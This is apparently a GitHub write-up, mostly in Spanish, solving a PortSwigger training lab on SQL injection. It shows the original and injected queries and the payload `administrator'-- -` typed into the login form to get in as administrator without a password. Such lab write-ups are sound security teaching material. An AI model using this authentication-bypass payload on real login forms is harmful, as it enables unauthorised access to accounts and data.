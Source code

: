 # `Lab`: SQL injection vulnerability allowing login bypass

- [Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

## Descripción:

This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.

---

### Explicación:

- En este laboratiorio ya nos dan el nombre del **user** `administrator`, pero no tenemos el **password**.
- El truco está en comentar todo lo que está después del **user** para brincar la condición del **password**.

### Query original:

````sql
select id,username,subscription from users where username = 'F0n3' and password = 'p@ssw0rd123-1';
````

### Query inyectada:

````sql
select id,username,subscription from users where username = 'F0n3' -- and password = 'p@ssw0rd123-1';
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/4cd5611e-0aac-435f-a45d-4a254b669186)


## Solución:

1. Abrir laboratorio y buscar en donde me puedo autenticar

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/dfe5453b-1098-4799-a0fd-a7a940683d9f)


2. Aquí encuentro donde puedo hacer inputs de strings

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/e6481b91-47f2-4b54-8cc9-0d036d9d99a1)


3. Query que usé (lo puse en ambos campos, aunque se puede usar en el primero y el segundo lo que sea...)

````sql
administrator'-- -
````
````http
Username: administrator'-- -
Password: Lo que sea...
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/95856f02-84de-4067-a9af-65183b9bb6a9)





